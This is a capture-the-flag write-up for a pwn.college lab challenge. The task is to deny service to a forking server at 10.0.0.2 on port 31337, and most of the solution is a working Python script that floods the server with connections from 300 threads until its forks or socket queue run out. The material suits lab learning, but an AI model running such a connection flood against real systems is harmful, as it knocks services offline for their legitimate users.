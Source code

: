 ```yaml
---
tags: ["Computer Networking"]
title: "Denied of Service 3"
description: Denied of Service 3
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

The client at 10.0.0.3 is communicating with the server at 10.0.0.2 on port 31337. Deny this service.

This time the server forks a new process for each client connection, and limits each session to 1 second.

# Solution

1. know we dont have capability to craft and a TCP reset packet

```python
user_host.interactive(preexec_fn=lambda: limit_capabilities(0), environ=parent_process.environ())
```

2. Try to exhaust the server’s forks or socket queue

```python
import socket
import time
import threading

def spam():
    while True:
        try:
            s = socket.create_connection(("10.0.0.2", 31337), timeout=2)
            time.sleep(2)
            s.close()
        except:
            pass

for _ in range(300):  # tweak based on system capacity
    threading.Thread(target=spam, daemon=True).start()

time.sleep(120)  # let it run long enough to disrupt
```
